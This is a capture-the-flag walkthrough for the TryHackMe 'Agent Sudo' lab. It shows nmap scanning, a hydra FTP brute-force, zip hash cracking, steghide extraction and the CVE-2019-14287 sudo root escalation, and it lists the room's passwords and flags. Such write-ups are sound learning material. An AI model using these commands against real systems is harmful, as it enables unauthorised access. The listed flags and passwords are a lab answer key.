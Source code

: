 ```yaml
---
description: https://tryhackme.com/room/agentsudoctf
---
```


# Agent Sudo

## INIT

```
export agentsudo=10.10.172.140
ping $agentsudo

echo "10.10.172.140 agentsudo.thm" >> /etc/hosts
```

## Task 2 Enumerate

```
nmap -v -sC -sV -O -T5 -p1-65535 agentsudo.thm
```

### How many open ports?

![](<../.gitbook/assets/image (431).png>)

{% hint style="success" %}
3
{% endhint %}

### How you redirect yourself to a secret page?

![](<../.gitbook/assets/image (430).png>)

> Switch User-Agent to C

![](<../.gitbook/assets/image (432).png>)

{% hint style="success" %}
User-Agent
{% endhint %}

### What is the agent name?

{% hint style="success" %}
Chris
{% endhint %}

## Task 3 Hash cracking and brute-force

### FTP password

```
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://agentsudo.thm -t 50
```

![](<../.gitbook/assets/image (433).png>)

{% hint style="success" %}
crystal
{% endhint %}

### Zip file password&#x20;

![](<../.gitbook/assets/image (434).png>)

```
binwalk -e cutie.png

zip2john 8702.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](<../.gitbook/assets/image (436).png>)

{% hint style="success" %}
alien
{% endhint %}

### steg password&#x20;

```
steghide extract -sf cute-alien.jpg
```

![](<../.gitbook/assets/image (437).png>)

{% hint style="success" %}
Area51
{% endhint %}

### Who is the other agent (in full name)?&#x20;

{% hint style="success" %}
james
{% endhint %}

### SSH password

{% hint style="success" %}
hackerrules!
{% endhint %}

## Task 4 Capture the user flag

### What is the user flag?

![](<../.gitbook/assets/image (438).png>)

{% hint style="success" %}
b03d975e8c92a7c04146cfa7a5a313c7
{% endhint %}

### What is the incident of the photo called?

```
scp james@agentsudo.thm:/home/james/Alien_autospy.jpg .
```

![](<../.gitbook/assets/image (439).png>)

{% hint style="success" %}
Roswell Alien Autopsy
{% endhint %}

## Task 5 Privilege escalation

```
sudo -l
```

![](<../.gitbook/assets/image (441).png>)

### CVE number for the escalation&#x20;

![](<../.gitbook/assets/image (442).png>)

![](<../.gitbook/assets/image (440).png>)

{% hint style="success" %}
CVE-2019-14287
{% endhint %}

### What is the root flag?&#x20;

```
sudo -u#-1 /bin/bash
cat /root/root.txt
```

{% hint style="success" %}
b53a02f55b57d4439e3341834d70c062
{% endhint %}

### (Bonus) Who is Agent R?

![](<../.gitbook/assets/image (444).png>)

{% hint style="success" %}
DesKel
{% endhint %}
